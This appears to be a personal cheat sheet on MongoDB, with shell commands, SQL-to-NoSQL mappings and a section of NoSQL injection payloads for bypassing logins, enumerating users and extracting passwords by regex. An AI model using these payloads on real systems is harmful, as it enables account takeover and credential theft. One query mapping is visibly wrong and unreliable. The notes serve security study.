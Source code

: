 # MongoDB

# Notes

- Hierarchy : database > collection (table) > documents (entries)

# Command lines

Connect
`mongo 1.1.1.1:27017/db`
List databases
`show dbs`
Swith database
`use dbname`
Show collections (tables)
`show collections`
Show collection entries (select from table)
`db.collname.find()`

# NoSQL

- SELECT * FROM collection WHERE last_name = 'Sandler';
`['last_name' => 'Sandler']`
- SELECT * FROM collection WHERE last_name = 'Phillips' AND gender = 'male';
`['last_name' => 'Phillips', 'gender' = 'male']`
- SELECT * FROM collection WHERE game > 50;
`['age' => ['$lt','Sandler']]`

# Operators reference

## Comparison

[Untitled](MongoDB%2099a67101e71a4cdbbb06ef84e2e6b84e/Untitled%20Database%20229f5ec4de924b639aa9f0a68ae6d566.csv)

## Logical

[Untitled](MongoDB%2099a67101e71a4cdbbb06ef84e2e6b84e/Untitled%20Database%20b2fc1ebd95da45199b2d6b76150a60ad.csv)

# NoSQL Injections

## Login bypass

- Random user
Remplacer ?user=username&password=password par :

```
user[$ne]=username&password[$ne]=password

```

- Enumerate users
`user[$nin][]=admin&user[$nin][]=username1&user[$nin][]=username2&password[$ne]=password`
- Guess password length
`user[$nin][]=admin&pass[$regex]=^.{8}$&remember=on`
- Extract password

```
# Fuzz each character with burp
user=admin&pass[$regex]=A.......&remember=on
user=admin&pass[$regex]=AA......&remember=on

```